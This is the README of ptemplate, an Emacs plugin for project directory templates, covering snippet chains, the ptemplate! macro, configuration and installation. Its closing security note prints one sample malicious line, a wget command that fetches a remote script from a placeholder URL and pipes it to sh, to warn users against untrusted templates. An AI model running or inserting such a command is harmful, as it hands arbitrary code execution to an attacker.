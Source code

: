 # About
Projects contain a lot of boilerplate like build system files, cask files,
license files, ..., making starting new projects more work than it needs to be.
The ptemplate Emacs plugin solves that problem: it lets you define directory
templates that can contain various files and directories, including yasnippets.
Such templates ("ptemplates") can even be made intelligent using Emacs Lisp.

# Usage
## Creating new projects
For helm users, run `ptemplate-new-project`. It will then prompt you to select a
template followed by a project directory. The templates are categorized in
types, which are either mapped to helm sections or to suffixes appended to
template names (see the "Configuration" section below).

# Writing templates
All templates are categorized into types, which are associated with workspace
directories using the variable `ptemplate-workspace-alist`. You could, for
example, have types corresponding to languages (so a Java type, a C++ type,
...). The corresponding workspace is used as the default folder in the project
directory selection. Templates are stored in `ptemplate-template-dirs`, a list
of directories containing templates, all of which must be categorized under type
directories as described above.

## Anatomy of a template
Each template has a nested directory structure, consisting of any number of
files and directories, which is replicated at the expansion target. Some files
(depending on their suffix) are expanded specially, and their extension is not
replicated:

### \*.yas
Files ending in .yas are yasnippets, which are expanded in a so-called snippet
chain: a list of all such files is gathered, after which a single buffer pops up
where the user can expand the first snippet like any regular yasnippet (TAB,
...). The following snippets can be visited similarly by pressing `C-c C-c`, at
which point the buffer is killed and written to the target. The following
keybindings are available in a snippet chain buffer:

#### `C-c C-c`: `ptemplate-snippet-chain-continue`
Finish expanding the current yasnippet by writing the current snippet buffer to
the correct destination and killing its buffer.

#### `C-C C-l`: `ptemplate-snippet-chain-later`
Mark the current snippet buffer to be expanded later and continue like
`ptemplate-snippet-chain-continue`. Unlike with `ptemplate-snippet-chain-next`,
the snippet buffer is not killed. You can use this keybinding to procrastinate
expansion of the current snippet and look at the others meantime.

The keybindings can be modified by customizing
`ptemplate-snippet-chain-mode-map`.

### \*.keep
.keep files are copied like normal files, but without the .keep extension. Name
files this way if you need to override ptemplate's special file handling for
some files (e.g. if you are writing templates for ptemplate templates).

### \*.nocopy
Such files are not copied at all. Empty directories cannot be added to git. This
way, an empty .gitkeep.nocopy file can be added in empty directories to make
them part of the template.

### .ptemplate.el
As stated in "About", ptemplate allows templates to be scripted with Emacs Lisp.
For this, you can add .ptemplate.el in the template's root directory, which is
evaluated before expansion. This file is not copied. Even though arbitrary lisp
code, executed in the main Emacs instance, can be contained within it, templates
should make use of the `ptemplate!` macro. It takes any number of keyword blocks
(akin to `use-package`) which are then expanded to the correct lisp code:

- :init FORMs to run before expansion
- :before-snippets FORMs to run before expanding yasnippets
- :after-copy FORMs to run after all files have been copied
- :finalize FORMs to run after expansion finishes.
- :snippet-env Variables to make available to yasnippets.
- :snippet-let Variables to let*-bind around the `ptemplate!` block + to add in
  yasnippets.
- :ignore Regular expressions of filenames to ignore or paths to ignore.
- :subdir Make some template directories appear as if they were in its root.
- :remap Remap SRC to TARGET in (SRC TARGET) using `ptemplate-remap`.
- :remap-rec Like :remap, but use `ptemplate-remap-rec` instead.

For details, see `M-x describe-function ptemplate!`.

Some other useful functions include:
- `ptemplate-map`: map one template file to some file in the target
- `ptemplate-remap`: remap template files
- `ptemplate-remap-rec`: recursively remap template directories
- `ptemplate-copy-target`: copy files from one target location to another
- `ptemplate-include`: add all files in DIRS as if they were part of the
  template, files mapped previously taking precedence
- `ptemplate-include-override`: like the above, but files in DIRS take
  precedence
- `ptemplate-target`: make a path from expansion target + dir
- `ptemplate-source`: make a path from template directory + dir

# Configuration
## ptemplate-template-prompt-function
This variable specifies which function to use for prompting templates. It can be
a custom function, or one of the builtin ones (see its docstring for details).
By default it prompts templates using completing-read, and their types appended
in parentheses. There is also a builtin function available to use separate helm
sections (sources) instead:

```emacs-lisp
(setq ptemplate-prompt-template-completing-read
      #'ptemplate-prompt-template-helm)
```

## ptemplate-workspace-alist
Maps template types to workspaces. When a new project is created, the type is
looked up in this alist and the directory mapped is suggested as the default
target, in which another directory may be specified for expansion. If the type
is not associated, use `ptemplate-default-workspace`, or the current buffer's
`default-directory` if even that is nil.

## ptemplate-default-workspace
See above.

## ptemplate-template-dirs
List of directories in which templates are looked up. Each directory specified
shall consist of a number of subdirectories (corresponding to types) each of
which have separate subdirectories for templates (template names).

# Installation
This package is not yet on `MELPA`. However, you can install it using any
package manager/fetcher that can handle GitHub repositories:

## `quelpa` + `use-package`
``` emacs-lisp
(quelpa '(ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
(use-package ptemplate)
```

## `quelpa-use-package`
``` emacs-lisp
(use-package ptemplate
  :quelpa (ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
```

## `straight-use-package`
``` emacs-lisp
(straight-use-package
 '(ptemplate :type git :host github :repo "nbfalcon/ptemplate"))
```

# Security note
Due to the smart expansion feature, and due to allowing yasnippets in templates,
ptemplate is *not* secure. You should use only trusted templates. A malicious
template could have a snippet like the following in its .ptemplate.el or in a
\`\` block of one of its yasnippets:

```emacs-lisp
(shell-command "wget $SH_MALWARE_URL | sh")
```

At that point, all security would be lost: the malicious shell script could nuke
your home directory, implant a .profile-based rootkit, modify user-owned
software, .... The possibilities are endless.
